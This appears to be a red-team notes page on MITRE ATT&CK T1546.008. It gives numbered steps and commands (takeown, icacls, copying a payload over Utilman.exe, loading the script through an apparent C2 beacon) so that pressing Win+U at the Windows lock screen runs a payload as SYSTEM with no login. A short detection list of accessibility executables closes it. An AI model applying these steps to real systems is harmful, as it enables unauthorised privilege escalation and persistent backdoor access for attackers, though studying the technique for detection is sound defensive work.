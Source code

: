 # [Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)

## Exploit syntax:

1. Get a beacon with administrative privileges. 

2. Put a payload on the victim box if it's not already present.

3. In parrot open a blank text file and paste the following commands into it and choose either to move or copy the payload on the third line then set the \<payload path> to the payload location on the victim box
    ```sh
    takeown /f c:\windows\system32\Utilman.exe /A;
	icacls c:\windows\system32\Utilman.exe /grant administrators:F;
	<move/copy> <payload path> c:\windows\system32\Utilman.exe;
    ```
4. Save the file with as NoobNoob.ps1 to /tmp
5. Run
	```sh
	sudo chmod +x /tmp/NoobNoob.ps1
	```

6.  In posh, run
    ```sh
	pslo /tmp/NoobNoob.ps1
    ```
7. From the login lockscreen of the windows box, press the windows key and 'U'
and the payload will execute. No login is required. Should give you System privileges. 

### This will not give you an administrator prompt

## Detection Technique:

* Observe common Windows Accessibility Features executables
	* sethc.exe 
	* Utilman.exe
	* osk.exe
	* Narrator.exe
	* Magnify.exe

